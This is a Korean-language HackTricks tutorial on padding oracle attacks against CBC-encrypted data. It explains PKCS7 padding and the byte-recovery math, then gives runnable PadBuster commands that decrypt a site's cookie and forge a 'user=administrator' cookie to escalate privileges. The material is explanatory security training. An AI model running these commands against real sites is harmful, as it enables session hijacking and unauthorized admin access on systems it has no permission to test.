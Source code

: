 # 패딩 오라클

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로**부터 **히어로**까지 AWS 해킹을 배우세요!</summary>

HackTricks를 지원하는 다른 방법:

* **회사가 HackTricks에 광고**되길 원하거나 **HackTricks를 PDF로 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 얻으세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)**에 가입하거나 [텔레그램 그룹](https://t.me/peass)에 가입하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)를 **팔로우**하세요.
* **해킹 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## CBC - Cipher Block Chaining

CBC 모드에서는 **이전에 암호화된 블록이 IV로 사용**되어 다음 블록과 XOR됩니다:

![https://defuse.ca/images/cbc\_encryption.png](https://defuse.ca/images/cbc\_encryption.png)

CBC를 복호화하려면 **반대로** **작업**을 수행합니다:

![https://defuse.ca/images/cbc\_decryption.png](https://defuse.ca/images/cbc\_decryption.png)

**암호화 키**와 **IV**를 사용해야 함에 주목하세요.

## 메시지 패딩

암호화가 **고정된 크기의 블록**에서 수행되므로 **패딩**이 **마지막 블록**에서 길이를 완성하는 데 필요합니다.\
일반적으로 **PKCS7**이 사용되며, 이는 블록을 완성하는 데 필요한 **바이트 수를 반복**하는 패딩을 생성합니다. 예를 들어, 마지막 블록이 3바이트 부족한 경우 패딩은 `\x03\x03\x03`이 됩니다.

**8바이트 길이의 2개 블록**에 대한 더 많은 예제를 살펴봅시다:

| byte #0 | byte #1 | byte #2 | byte #3 | byte #4 | byte #5 | byte #6 | byte #7 | byte #0  | byte #1  | byte #2  | byte #3  | byte #4  | byte #5  | byte #6  | byte #7  |
| ------- | ------- | ------- | ------- | ------- | ------- | ------- | ------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- | -------- |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | 6        | **0x02** | **0x02** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | 4        | 5        | **0x03** | **0x03** | **0x03** |
| P       | A       | S       | S       | W       | O       | R       | D       | 1        | 2        | 3        | **0x05** | **0x05** | **0x05** | **0x05** | **0x05** |
| P       | A       | S       | S       | W       | O       | R       | D       | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** | **0x08** |

마지막 예제에서 **마지막 블록이 가득 찼으므로 패딩만 있는 다른 블록이 생성**된 것을 주목하세요.

## 패딩 오라클

응용 프로그램이 암호화된 데이터를 복호화하면 먼저 데이터를 복호화한 다음 패딩을 제거합니다. 패딩을 정리하는 동안 **잘못된 패딩이 감지 가능한 동작을 유발**하면 **패딩 오라클 취약점**이 있습니다. 감지 가능한 동작은 **오류**, **결과 부족**, 또는 **응답이 느림**일 수 있습니다.

이 동작을 감지하면 **암호화된 데이터를 복호화**하고 심지어 **임의의 평문을 암호화**할 수 있습니다.

### 악용 방법

이 유형의 취약점을 악용하려면 [https://github.com/AonCyberLabs/PadBuster](https://github.com/AonCyberLabs/PadBuster)를 사용하거나 단순히 수행할 수 있습니다.
```
sudo apt-get install padbuster
```
사이트의 쿠키가 취약한지 테스트하려면 다음을 시도할 수 있습니다:
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA=="
```
**인코딩 0**은 **base64**가 사용된다는 것을 의미합니다(그러나 다른 것들도 사용할 수 있습니다, 도움 메뉴를 확인하세요).

또한 이 취약점을 악용하여 새 데이터를 암호화할 수 있습니다. 예를 들어, 쿠키의 내용이 "**_**user=MyUsername**_**"인 경우, 이를 "\_user=administrator\_"로 변경하여 응용 프로그램 내에서 권한을 상승시킬 수 있습니다. 또한 `-plaintext` 매개변수를 지정하여 `paduster`를 사용하여 이를 수행할 수도 있습니다:
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "RVJDQrwUdTRWJUVUeBKkEA==" 8 -encoding 0 -cookies "login=RVJDQrwUdTRWJUVUeBKkEA==" -plaintext "user=administrator"
```
만약 사이트가 취약하다면 `padbuster`는 자동으로 패딩 오류가 발생할 때를 찾으려고 시도할 것이지만, **-error** 매개변수를 사용하여 오류 메시지를 지정할 수도 있습니다.
```bash
perl ./padBuster.pl http://10.10.10.10/index.php "" 8 -encoding 0 -cookies "hcon=RVJDQrwUdTRWJUVUeBKkEA==" -error "Invalid padding"
```
### 이론

**요약**하면, 모든 **다른 패딩**을 만들 수 있는 올바른 값을 추측하여 암호화된 데이터의 복호화를 시작할 수 있습니다. 그런 다음, 패딩 오라클 공격은 **1, 2, 3 등의 패딩을 만드는 올바른 값**을 추측하여 끝에서 시작하여 바이트를 복호화하기 시작합니다.

![](<../.gitbook/assets/image (561).png>)

**E0에서 E15**까지의 바이트로 구성된 **2개 블록**을 차지하는 암호화된 텍스트가 있다고 상상해보세요.\
**마지막 블록**(**E8**에서 **E15**)을 **복호화**하기 위해 전체 블록은 "블록 암호 복호화"를 통해 **중간 바이트 I0에서 I15**를 생성합니다.\
마지막으로, 각 중간 바이트는 이전 암호화된 바이트(E0에서 E7)와 **XOR**됩니다. 그래서:

* `C15 = D(E15) ^ E7 = I15 ^ E7`
* `C14 = I14 ^ E6`
* `C13 = I13 ^ E5`
* `C12 = I12 ^ E4`
* ...

이제, `C15`가 `0x01`이 될 때까지 `E7`을 수정하여 **`E'7`를 찾을 수 있습니다**. 이는 올바른 패딩이 될 것입니다. 따라서, 이 경우에는: `\x01 = I15 ^ E'7`

그래서, `E'7`을 찾으면 **`I15`를 계산할 수 있습니다**: `I15 = 0x01 ^ E'7`

이를 통해 **`C15`를 계산할 수 있습니다**: `C15 = E7 ^ I15 = E7 ^ \x01 ^ E'7`

**C15**를 알게 되면, 이제 **`C14`를 계산할 수 있습니다**. 이번에는 패딩 `\x02\x02`를 브루트 포싱하여 계산합니다.

이 BF는 이전 것과 같이 복잡합니다. `E''15`의 값이 0x02인 `E''7 = \x02 ^ I15`를 계산할 수 있으므로 **`C14`가 `0x02`와 같은 `E'14`를 찾는 것만 필요**합니다.\
그런 다음, **`C14`를 복호화하기 위해 동일한 단계를 수행합니다**: **`C14 = E6 ^ I14 = E6 ^ \x02 ^ E''6`**

**전체 암호화된 텍스트를 복호화할 때까지 이 체인을 따릅니다.**

### 취약점 탐지

계정을 등록하고 이 계정으로 로그인합니다.\
**여러 번 로그인**하고 항상 **동일한 쿠키**를 받으면 응용 프로그램에 **문제가 있을 수 있습니다**. 로그인할 때마다 **반드시 고유한 쿠키**가 반환되어야 합니다. 쿠키가 **항상** **동일하면**, 아마도 항상 유효하고 **무효화할 수 없을 것입니다**.

이제, **쿠키를 수정**하려고 하면 응용 프로그램에서 **오류**가 발생하는 것을 볼 수 있습니다.\
그러나 패딩을 BF(예: padbuster 사용)하면 다른 사용자에 대해 유효한 다른 쿠키를 얻을 수 있습니다. 이 시나리오는 padbuster에 매우 취약할 가능성이 높습니다.

### 참고

* [https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation](https://en.wikipedia.org/wiki/Block\_cipher\_mode\_of\_operation)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 **제로부터 영월까지 AWS 해킹을 배우세요**!</summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 PDF로 HackTricks를 다운로드**하려면 [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구입하세요
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
* **💬 [디스코드 그룹](https://discord.gg/hRep4RUj7f)** 또는 [텔레그램 그룹](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* **HackTricks** 및 **HackTricks Cloud** 깃허브 저장소에 **PR을 제출**하여 **해킹 트릭을 공유**하세요.

</details>
